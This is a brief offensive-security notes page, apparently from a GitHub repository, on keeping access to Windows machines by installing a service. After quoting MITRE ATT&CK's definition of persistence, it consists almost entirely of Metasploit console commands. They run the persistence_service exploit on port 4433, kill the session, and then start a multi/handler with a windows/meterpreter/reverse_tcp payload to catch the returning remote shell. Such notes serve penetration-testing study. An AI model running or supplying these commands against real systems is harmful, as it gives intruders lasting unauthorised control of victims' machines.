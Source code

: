 # Persistence via services

"Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access. Techniques used for persistence include any access, action, or configuration changes that let them maintain their foothold on systems, such as replacing or hijacking legitimate code or adding startup code." (MITRE ATT&CK)

See here : <https://attack.mitre.org/matrices/enterprise/>

## Technics via Metasploit

```text
msf6 > background
msf6 > use exploit/windows/local/persistence_service
msf6 > set LPORT 4433
msf6 > run
```

## Persistence testing

```text
msf6 > sessions
msf6 > sessions -k 1
msf6 > exit
```

```text
msf6 > msfconsole
msf6 > use multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set LHOST eth1
msf6 > set LPORT 4433
msf6 > run
```

